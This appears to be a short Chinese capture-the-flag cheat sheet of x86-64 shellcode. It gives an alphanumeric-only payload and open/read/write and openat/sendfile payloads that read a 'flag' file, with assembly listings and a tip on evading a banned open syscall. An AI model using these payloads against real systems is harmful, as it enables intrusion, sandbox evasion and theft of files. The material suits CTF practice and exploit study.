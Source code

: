 #### 纯ascii字符
```python
b"Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t"
```

### orw
#### open read wirte
```python
b"hflagH\x89\xe71\xf6j\x02X\x0f\x05H\x89\xc7H\x89\xe6\xba\x00\x01\x00\x001\xc0\x0f\x05\xbf\x01\x00\x00\x00H\x89\xe6j\x01X\x0f\x05"
```
```x86asm
push   0x67616c66
mov    rdi, rsp
xor    esi, esi
push   0x2
pop    rax
syscall 
mov    rdi, rax
mov    rsi, rsp
mov    edx, 0x100
xor    eax, eax
syscall 
mov    edi, 0x1
mov    rsi, rsp
push   0x1
pop    rax
syscall
```

#### openat sendfile
> open系统调用实际上是调用了openat，如果open被禁了就直接用openat吧;同时sendfile还可以同时进行读写，真不错
```python
b'H\xb8/flag\x00\x00\x00PH\x89\xe6H1\xd2H\xc7\xc0\x01\x01\x00\x00\x0f\x05H1\xffH\xff\xc7H\x89\xc6H1\xd2I\xc7\xc2\x00\x01\x00\x00H\xc7\xc0(\x00\x00\x00\x0f\x05'
```
```x86asm
mov rax,0x0067616c662f
push rax
mov rsi,rsp
xor rdx,rdx
mov rax,257
syscall
xor rdi,rdi
inc rdi
mov rsi,rax
xor rdx,rdx
mov r10,0x100 # 读取文件的长度,不够就加
mov rax,40
syscall
```
